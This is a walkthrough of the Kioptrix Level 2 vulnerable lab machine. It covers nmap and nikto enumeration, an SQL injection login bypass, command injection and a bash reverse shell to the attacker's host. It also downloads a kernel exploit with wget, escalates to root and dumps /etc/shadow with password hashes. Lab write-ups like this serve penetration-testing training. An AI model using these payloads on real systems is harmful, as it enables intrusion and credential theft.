






# KIOPTRIX Level 2 Walkthrough

## Target determining
```
sudo netdiscover
```
Target: 172.10.0.201

Atacker: 172.10.0.200

## Enumeration
### Nmap
```
nmap -T4 -p- -sSCV 172.10.0.201
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-15 09:24 +07
Nmap scan report for adsl-172-10-0-201.dsl.sndg02.sbcglobal.net (172.10.0.201)
Host is up (0.00033s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
|_ssl-date: 2022-08-14T23:15:32+00:00; -3h09m38s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
1016/tcp open  status     1 (RPC #100024)
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 10:6F:D9:DE:E7:3B (Unknown)

Host script results:
|_clock-skew: -3h09m38s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.77 seconds
```
Browse the target website:



### Nikto
```
nikto -host http://172.10.0.201
```
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.10.0.201
+ Target Hostname:    172.10.0.201
+ Target Port:        80
+ Start Time:         2022-08-15 09:33:54 (GMT7)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type.
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.46). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 357810, size: 4872, mtime: Sun Mar 30 01:41:04 1980
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8917 requests: 1 error(s) and 16 item(s) reported on remote host
+ End Time:           2022-08-15 09:34:33 (GMT7) (39 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
## Exploit
Try SQLi to bypass the login page, use  payload **admin' or '1'='1**. The result is as expected:



Type local address *127.0.0.1*, the website return result of ```ping 127.0.0.1``` command:



Try exploiting command injection in this entry, using "&&" to excute multiple commands. With **127.0.0.1 && id** payload, the result also is expected:



To excute command easily, we need to create a shell to rce this machine. On attacker machine, listen to port 4444:
```
nc -lnvp 4444
```
On victim site, use payload **127.0.0.1; bash -i >& /dev/tcp/172.10.0.200/4444 0>&1** to create a shell in attacker machine:



### Privilege Escalation

Get information about victim machine OS:

```
uname -a
```
```
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
```

```
lsb_release -a
```
```
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
```

Search "centos 4.5" keyword in exploit db to get privilege escalation script:



Write script content to file named "exp.c" and create server to upload it to victim machine:

```
vi exp.c
python -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On victim shell created before, change directory to tmp and get exploit script:

```
cd /tmp
wget 172.10.0.200:8080/exp.c

--19:28:47--  http://172.10.0.200:8080/exp.c
           => `exp.c'
Connecting to 172.10.0.200:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,496 (2.4K) [text/plain]

    0K ..                                                    100%  183.11 MB/s

19:28:47 (183.11 MB/s) - `exp.c' saved [2496/2496]
```

Execute this script and run it:

```
gcc exp.c -o exp
./exp

sh: no job control in this shell
sh-3.00#
```

Privilege escalation successfully:

```
sh-3.00# whoami
root

sh-3.00# cat /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
bin:*:14525:0:99999:7:::
daemon:*:14525:0:99999:7:::
adm:*:14525:0:99999:7:::
lp:*:14525:0:99999:7:::
sync:*:14525:0:99999:7:::
shutdown:*:14525:0:99999:7:::
halt:*:14525:0:99999:7:::
mail:*:14525:0:99999:7:::
news:*:14525:0:99999:7:::
uucp:*:14525:0:99999:7:::
operator:*:14525:0:99999:7:::
games:*:14525:0:99999:7:::
gopher:*:14525:0:99999:7:::
ftp:*:14525:0:99999:7:::
nobody:*:14525:0:99999:7:::
dbus:!!:14525:0:99999:7:::
vcsa:!!:14525:0:99999:7:::
rpm:!!:14525:0:99999:7:::
haldaemon:!!:14525:0:99999:7:::
netdump:!!:14525:0:99999:7:::
nscd:!!:14525:0:99999:7:::
sshd:!!:14525:0:99999:7:::
rpc:!!:14525:0:99999:7:::
mailnull:!!:14525:0:99999:7:::
smmsp:!!:14525:0:99999:7:::
rpcuser:!!:14525:0:99999:7:::
nfsnobody:!!:14525:0:99999:7:::
pcap:!!:14525:0:99999:7:::
apache:!!:14525:0:99999:7:::
squid:!!:14525:0:99999:7:::
webalizer:!!:14525:0:99999:7:::
xfs:!!:14525:0:99999:7:::
ntp:!!:14525:0:99999:7:::
pegasus:!!:14525:0:99999:7:::
mysql:!!:14525::::::
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::
```

